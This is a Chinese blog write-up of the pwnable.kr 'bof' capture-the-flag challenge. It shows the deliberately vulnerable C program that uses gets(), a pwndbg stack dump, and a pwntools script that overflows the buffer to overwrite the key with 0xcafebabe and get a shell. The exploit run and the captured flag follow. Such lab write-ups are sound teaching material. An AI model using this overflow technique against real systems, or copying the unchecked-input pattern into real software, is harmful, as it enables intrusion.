

<!--yml
category: 未分类
date: 2022-04-26 14:30:01
-->

# PWN bof [pwnable.kr]CTF writeup题解系列3_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103794250](https://blog.csdn.net/fastergohome/article/details/103794250)

题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

先看看图标，挺有意思的小动物！


继续看题目内容：

 

下载相应的文件

```
root@mypwn:/ctf/work/pwnable.kr# wget http://pwnable.kr/bin/bof.c
--2020-01-01 08:40:45--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c’

bof.c                          100%[=================================================>]     308  --.-KB/s    in 0s      

2020-01-01 08:40:45 (8.07 MB/s) - ‘bof.c’ saved [308/308]

root@mypwn:/ctf/work/pwnable.kr# wget http://pwnable.kr/bin/bof
--2020-01-01 08:40:48--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7.2K)
Saving to: ‘bof’

bof                            100%[=================================================>]   7.18K  --.-KB/s    in 0s      

2020-01-01 08:40:49 (148 MB/s) - ‘bof’ saved [7348/7348]

root@mypwn:/ctf/work/pwnable.kr# nc pwnable.kr 9000
aa
overflow me : 
Nah..
root@mypwn:/ctf/work/pwnable.kr#
```

直接看看c语言代码

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

 这次没有做反编译，直接gdb调试一下，看看0xdeadbeef和key的相对位置就直接填充。

```
────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp  0xffd75e20 —▸ 0xffd75e3c ◂— 0x41414141 ('AAAA')
01:0004│      0xffd75e24 ◂— 0x0
... ↓
03:000c│      0xffd75e2c ◂— 0xc4e7c600
04:0010│      0xffd75e30 ◂— 9 /* '\t' */
05:0014│      0xffd75e34 —▸ 0xffd77fd9 ◂— './bof'
06:0018│      0xffd75e38 —▸ 0xf75444a9 (__new_exitfn+9) ◂— add    ebx, 0x1a7b57
07:001c│ eax  0xffd75e3c ◂— 0x41414141 ('AAAA')
──────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0 565b6654 func+40
   f 1 565b669f main+21
   f 2 f752ce81 __libc_start_main+241
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x 0xffd75e68+8
0xffd75e70:	0xdeadbeef
pwndbg> x/100x $sp
0xffd75e20:	0xffd75e3c	0x00000000	0x00000000	0xc4e7c600
0xffd75e30:	0x00000009	0xffd77fd9	0xf75444a9	0x41414141
0xffd75e40:	0x41414141	0x41414141	0x41414141	0x41414141
0xffd75e50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffd75e60:	0x41414141	0xf7544500	0xffd75e88	0x565b669f
0xffd75e70:	0xdeadbeef	0x00000000	0x565b66b9	0x00000000
```

 我填写了一下A进去，算下到0xdeadbeef有多远就直接覆盖。

贴出来python脚本如下：

```
#coding:utf8
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './bof'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('pwnable.kr', 9000)
# elf = ELF(process_name)

p.sendline('A'*(0x34) + p32(0xcafebabe))

p.interactive() 
```

执行结果如下：

```
root@mypwn:/ctf/work/pwnable.kr# python bof.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  be ba fe ca  0a                        │AAAA│····│·│
    00000039
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x20 bytes:
    'daddy, I just pwned a buFFer :)\n'
daddy, I just pwned a buFFer :)
$ 
```

简单溢出题，没什么特别好说的。